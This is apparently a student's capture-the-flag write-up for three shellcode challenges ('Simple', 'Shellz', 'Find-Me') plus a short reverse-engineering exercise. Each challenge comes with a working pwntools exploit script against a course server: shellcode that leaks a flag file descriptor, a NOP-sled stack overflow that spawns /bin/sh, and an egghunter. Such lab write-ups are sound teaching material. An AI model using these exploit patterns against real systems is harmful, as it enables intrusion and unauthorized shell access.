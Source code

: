# Simple

> Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoid2FyMy1zaW1wbGUiLCJpcCI6IjIwMi44Ny4xNjIuMjgiLCJzZXNzaW9uIjoiY2Q3YjE1MDItZGJmMC00NzRmLWJiNGItMTI0MWEyZjczN2JhIn0.IcDggSIW0SdDjzx8dRsvnLcx7zbdJ6mvhEp--nXl_IA}

## Scenario

The flag is opened with fd 1000, and our input shellcode is executed

## Solution

Write shellcode to use the read syscall to store the flag into our buffer (esp).  
Then write shellcode to print the flag from the buffer

## Script

```python3
from pwn import *
import re

# p = process("./simple")
p = remote('plsdonthaq.me', 3001)

assembly = f"""
    # read 100 bytes from from fd 1000 to esp
    mov eax, 0x03    # syscall 3: read
    mov ebx, 1000    # open FD 1000
    mov ecx, esp     # Read into ESP
    mov edx, 100     # Read 100 bytes
    int 0x80         # sycall

    # print n bytes from esp
    mov edx, eax     # print n bytes
    mov eax, 0x04    # syscall 4: write
    mov ebx, 0x01    # fd 1: stdout
    # mov ecx, esp   # Read from ESP
    int 0x80         # syscall
"""

payload = asm(re.sub('#.*$', '', assembly, flags=re.MULTILINE))

p.recvuntil("enter your shellcode:")
p.sendline(payload)
p.recvuntil("jumping to shellcode\n")
print(p.recvline(keepends=False))
```

---

# Shellz

> Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoid2FyMy1zaGVsbHoiLCJpcCI6IjIwMi44Ny4xNjIuMjgiLCJzZXNzaW9uIjoiMjdmZjVlZGYtMmRmNS00MTk4LTk2MzQtNTg2ZmRjMzc4ODgwIn0.3gX63Ng0-Z76Kmt937qeTbW_M1MOzLOc6azguHaerSg}

## Scenario

We are given a buffer `0x2004` away from ebp, and a random address in the stack.  
We need to get a shell.

## Solution

To jump into our shellcode, we need to overwrite the return address by padding `0x2008` bytes.  
In our pad, we also need to write our shellcode which will setup a syscall for `execve("/bin/sh", NULL, NULL)`.  

For some reason, using `push` to store the string didn't work, so I ended up storing the string into the buffer during runtime

## Script

```python3
from pwn import *
import re

# p = process("./shellz")
p = remote('plsdonthaq.me', 3002)

p.recvuntil(b"Here is a random stack address: ")
stackAddress = int(p.recvline(keepends=False), 16)
print("Stack address:", hex(stackAddress), "->", p32(stackAddress))

assembly = f"""
   # Test our shellcode is running
   # mov eax, 1
   # mov ebx, 99
   # int 0x80

   # Store "/bin/sh" at the start of the buffer
   # push didn't work for some reason
   mov ebx, {stackAddress}
   mov edx, 0x6e69622f
   mov [ebx], edx
   mov edx, 0x0068732f
   mov [ebx+4], edx

   # Set up syscall for execve("/bin/sh", NULL, NULL)
   mov eax, 0x0b
   # mov ebx, {stackAddress}
   mov ecx, 0
   mov edx, 0
   int 0x80
"""

payload = asm(re.sub('#.*$', '', assembly, flags=re.MULTILINE))

#                     Christmas                 + Payload + Return address
payload = (b'\x90' * (0x2008 - len(payload))) + payload + p32(stackAddress)

p.sendline(payload)
p.interactive()
```

---

# Find-Me

> Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoid2FyMy1maW5kLW1lIiwiaXAiOiIyMDIuODcuMTYyLjI4Iiwic2Vzc2lvbiI6ImMzNDBmNzM2LWU2OTQtNDViMi1hZjU3LWI3ODBiNTJhNGJiMCJ9.zZls9ldpV-Dh-3mz1pg09qEJ_VetUeR3Knu9FgYWdqA}

## Scenario

We are given two buffers (0x14 and 0x100 bytes), of which the first buffer is executed.  
This would give us only 19 bytes (20 bytes, inclusive of a NULL terminator) to write a piece shellcode that would be around 36 bytes long!

## Solution

Write an egghunter (at most 19 bytes long) to find the address bigger buffer, where we can write our shellcode.  
The bigger buffer would read from fd 1000 and print out the flag

## Script

```python3
# smallBuf -> 0x14 (20) bytes
# bigBuff -> 0x100 bytes

from pwn import *
import re

# p = process("./find-me")
p = remote('plsdonthaq.me', 3003)

p.recvuntil(b"new stack ")
stackAddress = int(p.recvline(keepends=False), 16)
print("Stack address:", hex(stackAddress), "->", p32(stackAddress))

assembly = f"""
mov eax, {stackAddress}   # Search from the stack address
mov ebx, 0x11223344       # Check for this signature
loop:
   inc eax                # Increment memory address
   cmp [eax-4], ebx       # Compare value at address to signature
   jne loop               # Loop if no match
   
   push eax               # Prepare jump to address eax
   ret                    # Go go go!
"""

####################################################################

payload = asm(re.sub('#.*$', '', assembly, flags=re.MULTILINE))
p.sendline(payload)

assembly = f"""
   # Test our shellcode is running
   # Should return with status code 99
      # mov eax, 1
      # mov ebx, 99
      # int 0x80

   # Read from fd 1000 into the stack memory
   mov eax, 0x03             # syscall 3: read
   mov ebx, 1000             # open FD 1000
   mov ecx, {stackAddress}   # Read into stack
   mov edx, 100              # Read 100 bytes
   int 0x80                  # sycall

   # Print from the stack memory
   mov edx, eax              # Print n bytes
   mov eax, 0x04             # syscall 4: write
   mov ebx, 0x01             # fd 1: stdout
   # mov ecx, esp            # Read from stack
   int 0x80                  # syscall
"""

payload = asm(re.sub('#.*$', '', assembly, flags=re.MULTILINE))
p.sendline(b"\x11\x22\x33\x44"[::-1] + payload)
p.recvuntil("jumping to smallbuf\n")
print(p.recvline(keepends=False))
```

---

# Reverse Engineering

The function `main` creates a loop over a counter (initially 0). The loop increments by 1 until it reaches 10. During the loop, if the current number is odd (LSB is 1), then the number is printed out with printf. The program returns with the status code `1`.

The format string of printf is not disclosed, and we will assume it to be `"%d\n"`

> gcc -m32 reversing.c

```c
#include <stdio.h>

int main(int argc) {
    int var_14 = 0;

    while (var_14 <= 9) {
        // Print if odd
        if (var_14 & 1) {
            // Don't know what the print string is
            // But we know it prints out var_14
            printf("%d\n", var_14);
        }

        var_14++;
    }

    return 1;
}
```

